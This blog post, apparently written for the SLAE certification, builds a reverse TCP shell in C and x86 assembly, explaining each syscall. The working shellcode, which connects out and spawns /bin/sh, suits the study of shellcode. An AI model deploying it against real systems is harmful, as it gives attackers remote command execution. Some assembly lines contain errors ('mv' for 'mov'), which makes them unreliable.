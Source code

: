```yaml
---
layout: single
title: "SLAE: Custom TCP Reverse shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-18
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and examine shellcode with a Reverse TCP shell as the payload.

**What is the difference between the bind shell we created in our previous post and a reverse shell?**

Simply put, a BIND shell will open a port and start listening, when a connection is established a program (usually sh, bash, PS, cmd etc) and redirect all input and output the incoming connection. 
In a similar fashion a reverse shell will send a program over the wire to a listening port, and redirect all input.

To demonstrate I have made some modifications to my [previous C code](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/bind_tcp_shell.c), which basically consisted of removing the entire bid, listen and accept sections, and added connect:
```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int socketfd;
struct sockaddr_in servaddr;

int main() { 
	//Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(AF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

	//Initialize servaddr struct 
    servaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    servaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //connect to remote address
    connect(socketfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketfd, 0);
    dup2(socketfd, 1);
    dup2(socketfd, 2);

	//Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
}
```

Just from amending the code, I have a pretty good idea on how this is going to go down. Much of the code will be the same as the [previous blog](https://rawrradiomouse.github.io/slae-1/), with the main difference being that we have to consider that some ip addresses may have x00 in them.

* __NR_socketcall	  102
    * SYS_CONNECT	3
* __NR_dup		     41
* __NR_execve		   11


![socketcall](/assets/images/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value goes in al
* function type goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    xor ebx, ebx  ; SHELLCODE DID NOT WORK WITHOUT THIS HERE, IT WILL WORK WITH NASM BUT NOT AS SHELLCODE DUE TO REGISTER NOISE!!!
    mv bl, 1     ; we set function to 1, which is the value of socket
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
**IT TOOK ME A LONG TIME TO FIGURE WHY MY SHELL WOULD NOT WORK, it is because as we are sending the connection out and not waiting we need to call dup BEFORE we send the shell down the wire.**

The DUP syscall section is as it was in our bind exercise.

Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx, ecx
    xor eax, eax
loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

As we see from the man page, the connect syscall follows the same structure as listen. The only difference is that we need to be mindful of nulls in the address - I opted to try and solve this issue by pushing an ip with each octet incremented by 1, only to subract again straight after.

![connect](/assets/images/SLAE_2/2.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ecx, ecx
    mov ecx, 0x02010180 ; push 128.1.1.2 (flipped, so it actually goes on as 2.1.1.128)
    sub ecx, 0x01010101 ; subtract 1.1.1.1
    push ecx ; push our modified address on
    push word 0x5C11 ; push on reversed value of 4444
    push word 0x2 ; push value of AF_INET
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    xor ebx, ebx
    mov bl, 3 ; we set function to 3, which is the value of connect
    xor eax, eax
    mov al, 102
    int 0x80
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f6e
    push 0x69622f2f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
I compiled my code and tested, reverse shell was caught and succesful:
After all this, we can see as below I was able to catch the reverse shell:

![start_bindlisten](/assets/images/SLAE_2/3.JPG)


It is time to work on our wrapper, I used [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) to extract the shellcode: 
![connect_to_shell](/assets/images/SLAE_2/4.JPG)

I took my original [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) and [edited it](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) to make a reverse shell version.

A per screen below the script is both fool-proof and accurate.
![rev_wrapper.py](/assets/images/SLAE_2/5.JPG)

I tested my shellcode, and hit a brick wall... My shell would send back when compiled in nasm, but not with c!!
This is due to the fact I did not xor out EBX in the very beginning, this is very important when running code in c, as we do not know what the register state could end up being.

I perservered with the help from a friend, and as below, caught my shell sent from shellcode :)
![rev_wrapper.py](/assets/images/SLAE_2/6.JPG)
![rev_wrapper.py](/assets/images/SLAE_2/7.JPG)


